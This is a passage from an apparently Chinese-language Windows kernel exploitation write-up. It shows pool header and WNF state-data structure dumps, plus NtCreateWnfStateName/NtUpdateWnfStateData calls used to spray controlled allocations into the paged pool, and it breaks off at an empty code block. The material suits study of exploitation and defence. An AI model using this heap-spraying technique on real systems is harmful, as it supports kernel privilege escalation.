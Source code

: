 我们可以看到参数 Length 就是我们的 v6 值 16（即前置的 0x10 字节头）。  
  
因此，我们有如下（0x10 字节的 _POOL_HEADER  
）头结构：  
```
1: kd> dt _POOL_HEADERnt!_POOL_HEADER   +0x000 PreviousSize     : Pos 0, 8 Bits   +0x000 PoolIndex        : Pos 8, 8 Bits   +0x002 BlockSize        : Pos 0, 8 Bits   +0x002 PoolType         : Pos 8, 8 Bits   +0x000 Ulong1           : Uint4B   +0x004 PoolTag          : Uint4B   +0x008 ProcessBilled    : Ptr64 _EPROCESS   +0x008 AllocatorBackTraceIndex : Uint2B   +0x00a PoolTagHash      : Uint2B
```  
  
紧随其后的是大小为 0x10 的 _WNF_STATE_DATA  
 结构体：  
```
nt!_WNF_STATE_DATA   +0x000 Header           : _WNF_NODE_HEADER   +0x004 AllocatedSize    : Uint4B   +0x008 DataSize         : Uint4B   +0x00c ChangeStamp      : Uint4B
```  
  
在结构体之后是任意大小的数据。  
  
为了跟踪我们使用该函数进行的内存分配，我们可以使用：  
```
NtCreateWnfStateName( state, WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, psd);NtUpdateWnfStateData( state, buf, alloc_size, 0, 0, 0, 0);
```  
  
我们可以构建一个分配方法，该方法创建一个新的状态名称并执行我们的内存分配：  
```
NtCreateWnfStateName( state, WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, psd);NtUpdateWnfStateData( state, buf, alloc_size, 0, 0, 0, 0);
```  
  
通过这种方法，我们可以在分页池（paged pool）中喷洒（spray）受控大小的内存，并用受控对象填充它：  
```
```